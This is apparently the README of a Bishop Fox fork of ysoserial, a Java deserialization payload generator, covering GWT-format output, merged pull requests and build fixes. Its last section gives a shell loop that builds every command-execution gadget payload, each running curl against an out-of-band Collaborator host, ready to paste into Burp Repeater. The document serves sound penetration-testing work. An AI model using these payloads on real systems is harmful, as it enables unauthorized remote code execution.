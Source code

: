 # ysoserial - Bishop Fox fork

This is a fork of [ysoserial](https://github.com/frohoff/ysoserial) that incorporates some additional features. Refer to the original project for most of the documentation.

## GWT serialization output

The original motivation for this fork was to add support for the nonstandard serialization format used by Google Web Toolkit (GWT). To output in GWT format, add the `--gwt` option, with a field name, e.g. `--gwt default`, `--gwt bishopfox`, etc. It's not necessary to pick a valid field name, but GWT will get a little farther in its deserialization logic if the field name is valid for the type of object the payload is being injected into, and this might be beneficial in some cases.

You can try out the GWT serialization output feature using [the example vulnerable GWT web app](https://github.com/BishopFox/VulnerableGWTApp) discussed in [the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability)

## Merged back-catalogue pull requests

This fork also includes content from 11 unmerged pull requests in the mainline project that seemed useful:

* [PR#200 - Jython2 payload](https://github.com/frohoff/ysoserial/pull/200) (renamed Jython3 to avoid conflict with PR#153)
* [PR#192 - MozillaRhino3 payload](https://github.com/frohoff/ysoserial/pull/192)
* Partial implementation of [PR#189 - Improved command-line handling](https://github.com/frohoff/ysoserial/pull/189) (adds the argument-handling logic, but not the -s and -p options because they seemed potentially fragile)
* [PR#184 - Improved C3P0 payload](https://github.com/frohoff/ysoserial/pull/184) (implemented as a new "C3P02" payload so the original version can still be easily used)
* [PR#177 - WildFly1 payload](https://github.com/frohoff/ysoserial/pull/177)
* [PR#172 - TLS support for RMIRegistryExploit utility](https://github.com/frohoff/ysoserial/pull/172)
* [PR#167 - ROME2 payload](https://github.com/frohoff/ysoserial/pull/167)
* [PR#162 - RMIRegistryExploit utility should only call createMemoitizedProxy if the payload is not already a Remote instance](https://github.com/frohoff/ysoserial/pull/162)
* [PR#159 - Jdk7u21variant payload](https://github.com/frohoff/ysoserial/pull/159)
* [PR#153 - Jython2 and JythonZeroFile payloads](https://github.com/frohoff/ysoserial/pull/153)
* [PR#134 - Improved help message output](https://github.com/frohoff/ysoserial/pull/134) (modified the default width from 210 to 80 for better compatibility)

# Usage

You can try skipping the build steps below and using the precompiled JAR file available in the releases list for this repo.

Otherwise, compile the code using the same steps as for the main project (version 11 JRE, etc.):

```
mvn clean package -DskipTests
```

Once compiled, using this fork of `ysoserial` is the same as the standard version unless you want to output in GWT mode.

```
Usage: java -jar ysoserial-[version]-all.jar [options] <payload> '<command>'
  Options:
    -h,--help                  Print usage
    -G,--gwt <field name>      Output in Google Web Toolkit (GWT) serialization format:
      ex. --gwt default
```

To create a GWT payload and convert it directly to the customized Base64 encoding that GWT typically expects, you can use a command like the following:

```
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar \
   --gwt bishopfox \
   URLDNS \
   https://bishopfox.com \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' > URLDNS.bin.b64
```

## Build error troubleshooting

### ysoserial requires Java 11

You may receive errors similar to the following if you attempt to compile `ysoserial` using a Java runtime newer than version 11:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-compiler-plugin:3.5.1:compile (default-compile) on project ysoserial: Compilation failure: Compilation failure: 
[ERROR] error: Source option 6 is no longer supported. Use 7 or later.
[ERROR] error: Target option 6 is no longer supported. Use 7 or later.
```

As briefly mentioned above, Java 11 is required to build the standard version of `ysoserial`, as well as this fork. You will need to install a version 11 JRE (make sure it is not headless, as X Window support is required), and then configure your system/session to use that JRE by default. For example, you could updated your `JAVA_HOME` environment variable to point to the JDK 11 home directory in the same terminal session as the one where you're running `mvn` commands. When you run the `java -version` command in that session, it should indicate some variation of 11, or the build will fail. The steps for installing and configuring a specific JRE depend greatly on your OS and other factors.

### Missing javax.interceptor-api library

You may receive errors similar to the following, depending on your Linux distribution, how long you've had Maven installed on it, etc.:

```
[WARNING] The POM for javax.interceptor:javax.interceptor-api:jar:3.1 is missing, no dependency information available
...omitted for brevity...
[ERROR] Failed to execute goal on project ysoserial: Could not resolve dependencies for project ysoserial:ysoserial:jar:0.0.6-SNAPSHOT: The following artifacts could not be resolved: javax.interceptor:javax.interceptor-api:jar:3.1 (absent): javax.interceptor:javax.interceptor-api:jar:3.1 was not found in
https://repo.jenkins-ci.org/public/
during a previous attempt. This failure was cached in the local repository and resolution is not reattempted until the update interval of jenkins has elapsed or updates are forced -> [Help 1]
```

If so, unpack the file `lib/javax.interceptor-api-3.1.tar.gz` into your user-level Maven directory (usually `~/.m2`). Doing so should result in the creation of a subdirectory named `repository/javax/interceptor/javax.interceptor-api/3.1` containing at least four files. The root cause is that the 3.1 library was built, released, and many projects added it as a depenedency, then [the maintainers decided it was a mistake and deleted the library](https://github.com/jakartaee/interceptors/issues/4). This repo may be updated at a later date to use a different version of the library so that this step is not necessary.

### Newer versions of Maven may require pom.xml syntax update

You may receive the following error if you are using a newer version of Maven:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single (make-assembly) on project ysoserial: Execution make-assembly of goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single failed: parameter 'descriptor' has been removed from the plugin, please verify documentation. -> [Help 1]
[ERROR]
```

If so, replace the existing `pom.xml` file with the content of the `pom-newer_maven.xml` file.

# Quickly trying all command execution payloads

Trying `URLDNS` first with a URL based on your Burp Suite Collaborator hostname is always a good idea, because most systems can resolve public DNS names. If you've confirmed that `URLDNS` works, but want to attempt actual code execution, this section provides an option for building all of the OS command execution payloads, which you can then copy/paste into Burp Repeater or similar.

These steps generate all possible OS command execution payloads for testing in conjunction with a Burp Suite Collaborator server in a way that will let you know which (if any) succeeded. The way this is accomplished is by executing a command that makes and HTTP request to your Collaborator server for a URI named after the payload. So if you see entries in your Collaborator console for `/CommonsBeanutils1`, you know that the `CommonsBeanutils1` gadget chain works against the target.

This example uses `curl`, which will of course fail if a system is vulnerable but does not have `curl` installed. You could modify the steps to try the same approach using `wget`, `nc`, etc. If none of those work, you could use `ping -c3`, `nslookup`, or `host`, but those will only let you know that a command succeeded, not which payload was responsible. 

First create a file named `command_execution_payloads.txt` containing the following lines:

```
BeanShell1
C3P0
C3P02
Click1
Clojure
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
Groovy1
Hibernate1
Hibernate2
JavassistWeld1
JBossInterceptors1
Jdk7u21
Jdk7u21variant
JSON1
Jython2
Jython3
JythonZeroFile
MozillaRhino1
MozillaRhino2
MozillaRhino3
ROME
ROME2
Spring1
Spring2
Vaadin1
```

Then execute the following commands, substituting the Collaborator DNS name and your `ysoserial` JAR path (e.g. `target/ysoserial-0.0.6-SNAPSHOT-all.jar`) where indicated. 

```
export COLLABORATOR="<your Collaborator DNS name here>"
export YSOSERIAL="<your ysoserial JAR path here>"
export FIELDNAME="bishopfox"
mkdir "payloads-${COLLABORATOR}-curl"

while read pn; do \
   java -jar "${YSOSERIAL}" \
   --gwt "${FIELDNAME}" \
   "${pn}" \
   "curl http://${COLLABORATOR}/${pn}" \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' > "payloads-${COLLABORATOR}/${pn}.bin.b64"; \
   done<command_execution_payloads.txt
```

You can then copy/paste the payloads into Burp Repeater or similar.
